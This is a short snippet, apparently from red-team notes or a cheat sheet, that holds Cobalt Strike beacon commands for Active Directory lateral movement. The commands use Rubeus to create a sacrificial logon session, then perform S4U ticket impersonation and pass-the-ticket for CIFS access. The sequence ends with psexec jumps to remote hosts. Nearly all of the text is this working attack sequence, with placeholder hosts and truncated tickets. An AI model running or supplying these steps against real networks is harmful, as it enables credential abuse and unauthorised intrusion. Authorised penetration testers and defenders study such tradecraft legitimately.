 ```sh

beacon> jump psexec64 <remote host FQDN> smb

------------------------------------------------------------------------------------------

Method 2: (Create sacrificial login session first and pass to s4u

beacon> execute-assembly C:\Tools\Rubeus\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe 
/domain:ROTTA /username:cfoxy /password:FakePass /ticket:doIFyD[...]MuaW8=

beacon> execute-assembly C:\Tools\Rubeus.exe s4u /impersonateuser:cfoxy /self 
/altservice:cifs/<host-FQDN> /user:dc-2$ /ticket:doIFuj[...]lDLklP /self /ptt

beacon> run klist
beacon> ls \\<remote-host-FQDN>
beacon> jump psexec64 <remote host FQDN> smb
```
